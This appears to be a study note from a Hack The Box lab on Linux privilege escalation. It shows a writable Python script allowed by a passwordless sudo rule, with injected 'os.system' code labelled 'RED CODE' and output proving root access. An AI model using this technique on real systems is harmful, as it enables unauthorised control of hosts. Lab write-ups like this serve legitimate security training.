 # Linux Internals-based Privilege Escalation
`The Guide`

- [Python Library Hijacking](#python-library-hijacking)
  - [root](#root)

## Python Library Hijacking
> Permissions
```bash
ls -la mem_status.py
-rw-rwxr-x 1 htb-student htb-student 491 Nov  4 07:15 mem_status.py
```
```bash
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python3 /home/user/mem_status.py
```
> Looking at the result of above commands we can execute this python code as root.

### Root
```bash
$ sudo /usr/bin/python3 /home/user/mem_status.py 
uid=0(root) gid=0(root) groups=0(root)
Available memory: 88.78%
```
`contents of mem_status.py`
```python
#!/usr/bin/env python3
import psutil 

# RED CODE
import os
os.system('id')

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```